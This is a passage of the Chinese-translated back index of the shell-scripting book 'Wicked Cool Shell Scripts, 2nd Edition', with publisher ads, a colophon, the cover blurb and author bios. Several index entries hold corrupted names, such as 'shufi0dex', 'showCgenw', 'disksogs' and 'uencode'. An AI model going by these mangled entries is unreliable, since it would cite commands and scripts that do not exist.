- `setdate` 脚本, 148–150
- `setgid` 命令, 检查不当保护, 146–148
- `setuid` 命令, 检查不当保护, 146–148
- `setuid` 权限, 64
- SFTP, 同步文件, 229–233
- `sftpsync` 脚本, 229–233
    - 其封装器, 232–233
- `sftp` 工具, 104–106
- `sh` 命令, 6
- shbang, 6, 12
- shell 别名, 71
- shell 脚本, 1–3
    - 直接调用, 6–7
    - 调试, 45–49
    - 确定行数, 118
    - 文件扩展名, 5
    - 脚本库, 42–45
    - 编程环境, 9–10
        - 使用原因, 7–8
        - 运行, 5–6
- `shift` 命令, 54
- `showCgenw` 脚本, 202
- `showfile` 脚本, 101–103
- `.shmfile` 文件扩展名, 215
- `shufi0dex` C 函数, 290–291, 295
- 系统关机, 以及 `cron` 任务, 159
- 筛法, 用于素数, 287
- `SIGEXIT` (`EXIT`) 信号, 109
- `SIGHUP` (`HUP`) 挂断信号, 135
- `SIGKILL` (`KILL`) 信号, 135
- SkyDrive, 304
- `slideshow` 脚本, 304–306
- `.slocated db` 文件, 130–131
- `slocate` 脚本, 128–129
- SNMP (简单网络管理协议), 131
- Solaris, 命令数量, 52
- Soundex 算法, 284
- `source` 命令 (bash), 43
- 引入 (sourcing) 一个文件, 42–43
- `ssh` (安全外壳), 104–106, 229
- SSI (服务器端包含) 功能, 属于 Web 服务器, 213–215
- `ssync` 脚本, 232–233
- `startdropbox` 脚本, 300–301
- 州首府测验, 282–284
- `stderr`, 221–222
- `stdin`, 81
- `stdout`, 221–222
- Stickies (便签), 80
- 存储, 见 cloud storage; disk usage
- 子 shell (subshell), 5
- 替换密码, 274
- `su` 命令, 120, 129–130
- `sudo` 命令, 120, 130, 150
- Sundaram 筛法, 287
- 暂停用户账户, 133–136
- `suspender` 脚本, 133–136, 137
- 符号链接, 111
- sync Dropbox 脚本, 301–304
- `syncgdrive` 脚本, 307–309
- 同步文件
    - 在 Dropbox 中, 301–304
    - 使用 Google Drive, 307–309
    - 使用 SFTP, 229–233
- `syslog` 数据流, 添加条目, 64
- 系统守护进程, 用户 ID, 119
- `system()` 函数, 124
- 系统维护, 145
    - 备份, 166–171
    - 确保 `cron` 任务运行, 159–162
    - 按名称终止进程, 150–154
    - 轮转日志文件, 162–166
    - 设置系统日期, 148–150
    - 跟踪 set user ID 应用程序, 146–148
    - 验证用户 `crontab` 条目, 154–159

# T

- `tail` 命令, 用于监控网站搜索, 206
- tarball (`tar` 压缩包), 232
- `tar` 命令, 168, 248–249
- TCP (传输控制协议)
    - `netstat` 命令用于获取
        - 信息, 253
        - 脚本分析, 249–250
- `tcsh` shell, 2
- 温度, 转换, 85–87
- Terminal 应用
    - 打开窗口, 2
    - 动态设置标题, 266–267
- 文本, 显示随机, 213–215
- TextEdit, 5
- 文本编辑器, 5
- 千分位分隔符, 国际差异, 22–23
- `thumbnails` 脚本, 322–325
- 时间
    - 在不同时区显示, 73–77
    - 验证规范, 32
- `timed(8)`, 150
- `timein` 脚本, 73–77
- 时间戳
    - 添加到重命名文件, 348
    - 用于备份, 168
    - 更改, 58
    - 根据时间戳清理 `deleted_files` 归档, 62
- 时区, 73–77
- `titleterm` 脚本, 266–267
- `toolong` 脚本, 99–101
- 跟踪
    - 日历事件, 90–95
    - 网页更改, 194–197
- `trap` 命令, 108–109
- `traverse.dat` 文件, 220
- `traverse` 函数, 218
- `tr` 命令, 19, 34, 86
    - 将回车符替换为换行符, 262
- `trimmailbox` 脚本, 249
- 打字效果, 41–42
- `t2` 时区变量, 73
- 微调, 77–115
    - 带有附加信息的文件显示, 101–103
    - 带有行号的文件显示, 98–99
    - 使用 `quota` 模拟 GNU 风格标志, 103–104
    - 定制 `grep`, 107–109
    - 最大化文件压缩, 113–115
    - 定制 `sftp`, 104–106

# U

- Ubuntu
    - `cgi-bin` 目录, 201
    - 命令数量, 52
    - 默认 Web 根目录, 212
- `umask` 值, 57
- unable to read front 错误, 318
- 下划线类型, 41–42
- 意外的文件结束 (EOF), 47
- Unix
    - 大小写敏感, 72
    - 早期开发, 10
    - `netstat` 命令输出格式, 250
    - 哲学, 关于命令, 52
- 处理压缩文件，109–112
- 换行长代码行，99–101
- `unrar` 脚本，58–62
- 单词解密 (单词游戏)，275–277
- 将文件上传到 FTP 服务器，177
- 大写字母，输入要求，17

# URLs

- 从网页提取，177–180
- 页面请求前的用户访问，236
- 用户账户
    - 添加，131–133


# 索引

## 删除

- 删除，136–138
- 暂停，133–136
- 用户 ID，相关内容 119

## 用户

- 用户命令，51–53
- 用户 ID，系统守护进程和用户账户，119
- 用户输入，参见 input
- 用户管理，117–123。另见 accounts
  - 可用磁盘空间，125–127
  - 清理访客用户后的痕迹，141–143
  - `df` 输出的可读性，123–125
  - `disksogs` 脚本，121–123
  - 磁盘使用情况分析，119–120
  - 获取 GitHub 信息，180–182
  - 安全 `locate`，127–131
  - 用户环境验证，139–141
- `/usr` 目录，119
- UTC (协调世界时)，73
- `uencode` 命令，248

## V

- 验证
  - alphanumeric (字母数字) 输入，15–17
  - 日期格式，29–32
  - 浮点数输入，26–29
  - 整数输入，23–26
  - 电话号码输入，17
  - 时间规范，32
  - 用户环境，139–141
- 验证器脚本，139–141
- `valid-date` 脚本，29–32
- van den Berg, Stephen, 37
- 变量
  - 使用 `echo` 命令追踪，45
  - 搜索值的名称，241
  - 命名方案，254
  - 变量切片语法，13, 14, 141
- `verifycron` 脚本，154–159
- Vim, 5
- 语音合成系统，309–312

## W

- 图像水印，316–318
- 水印脚本，316–318
- `wc` (word count/字数统计) 命令，100
- 天气，185–186
  - Weather Underground, 185
- `webaccess` 脚本，236–239
  - 基于 Web 的相册创建，211–213
  - Web 客户端，从中查询，202
- `weberrors` 脚本，242–246
- Web 事件，日志记录，203–206
- Web 表单，收集电子邮件地址，作为安全风险，200–201
- 网页
  - 动态构建，207–208
  - 作为电子邮件消息，209–211
  - 从中提取 URL，177–180
  - 跟踪更改，194–197
  - 页面请求前的用户访问，236
- Web 服务器
  - 管理，235
  - 服务器端包含 (SSI) 能力，213–215
  - 分割日志，243
- 网站
  - 使用 `getlinks` 进行站点分析，180
  - 使用 `tail` 命令监控搜索，206
  - `which` 命令，3
  - `while` 循环，22, 98, 286
- `whoami` 命令，69
- Windows 10, bash shell, 341–344
- 字数统计 (`wc`) 命令，100
- 包装器 (Wrappers)，53
  - 用于 `bc` 程序，34–36, 82–85
  - 安装，63
  - `open2` 脚本，269–271
  - 用于 `rm` 命令，62–65
  - 用于 `sftpsync`，232–233
- 仅对长文本行进行换行，99–101

## X

- X11 (图形库)，304
- `xargs` 命令，67
- XML (可扩展标记语言)，174
- `xmllint`, 调用，186
- XQuartz 软件包，304

## Y

- Yahtzee (掷骰子游戏)，289
- `yum` 软件包管理器，使用其安装，201

## Z

- `zcat` 命令，109–112
- 零字符引用短语，与空白短语对比，17
- `zgrep` 命令，109–112
- ZIP 邮编查询，182–183
- `zmore` 命令，109–112
- `zsh` shell, 2

## 资源

访问 https://www.nostarch.com/wcss2/ 获取资源、勘误表和更多信息。

## 更多来自 NO STARCH PRESS 的干货书籍

| 书名 | 副标题 | 作者 | 日期 | 页数 | 价格 | ISBN |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| HOW LINUX WORKS, 2ND EDITION | 每个超级用户都应该知道的内容 | BRIAN WARD | 2014年11月 | 392 页 | $39.95 | 978-1-59327-567-9 |
| PYTHON CRASH COURSE | 基于项目的编程上手入门 | ERIC MATTHES | 2011年11月 | 560 页 | $39.95 | 978-1-59327-603-4 |
| THE LINUX COMMAND LINE | 完整入门指南 | WILLIAM E. SHOTTS, JR. | 2012年1月 | 480 页 | $39.95 | 978-1-59327-389-7 |
| AUTOMATE THE BORING STUFF WITH PYTHON | 为完全初学者准备的实用编程 | AL SWEIGART | 2015年4月 | 504 页 | $29.95 | 978-1-59327-599-0 |
| THE BOOK OF R | 编程与统计第一课 | TILMAN M. DAVIES | 2016年7月 | 832 页 | $49.95 | 978-1-59327-651-5 |
| THINK LIKE A PROGRAMMER | 创意问题解决入门 | V. ANTON SPRAUL | 2012年8月 | 256 页 | $34.95 | 978-1-59327-424-5 |

电话：1.800.420.7240 或 1.415.863.9900

电子邮件：SALES@NOSTARCH.COM

网址：WWW.NOSTARCH.COM

*Wicked Cool Shell Scripts, 2nd Edition* 使用了 New Baskerville, Futura, Dogma 和 TheSans Mono Condensed 字体。本书由密歇根州切尔西的 Sheridan Books, Inc. 印刷和装订。纸张采用 60# Finch Offset，并通过了森林管理委员会 (FSC) 认证。

本书采用平装装订 (layflat binding)，书页使用冷set柔性胶水粘合，书页块的首尾页连接到封面。封面实际上并未粘在书脊上，因此在打开时，书本可以平放且书脊不会开裂。

## 101 个省时且能解决问题的 Shell 脚本

Shell 脚本是一种与机器交互以及管理文件和系统操作的高效方式。只需几行代码，你的计算机就会完全按照你的意愿运行。此外，你还可以将 Shell 脚本用于许多其他重要（以及不那么重要）的任务。

第二版 *Wicked Cool Shell Scripts* 提供了一系列有用、可定制且有趣的 Shell 脚本，用于解决常见问题并个性化你的计算环境。每一章都包含开箱即用的脚本、工作原理详解、使用原因以及修改和扩展的建议。你将发现一些经典的实用工具，例如在系统崩溃时可确保文件安全的磁盘备份工具、密码管理器、天气追踪器和若干游戏，以及 23 个全新的脚本，包括：

- 一个可报告城市和州的 ZIP 邮编查询工具
- 一个比特币地址信息检索器
- 一套用于处理 Dropbox 和 iCloud 等云服务的工具
- 用于批量重命名文件并应用命令的工具
- 图像处理和编辑工具

无论你是想节省管理系统的时间，还是只想寻找新的消遣方式，这些脚本都酷毙了！

## 关于作者

**Dave Taylor** 撰写了 20 多本书以及数千篇杂志和报纸文章，并且是一位屡获殊荣的公共演讲者。他曾参与 BSD 4.4 UNIX 的开发，其软件被包含在所有主流 UNIX 发行版中。

**Brandon Perry** 在开源 .NET 实现 Mono 出现后开始编写 C# 应用程序。在业余时间，他热衷于为 Metasploit 框架编写模块、解析二进制文件以及进行模糊测试。

涵盖适用于 LINUX, UNIX, 和 OS X 的 BOURNE-AGAIN SHELL (BASH)

极客娱乐之最™

www.nostarch.com

ISBN: 978-1-59327-602-7

$34.95 ($40.95 加拿大元)
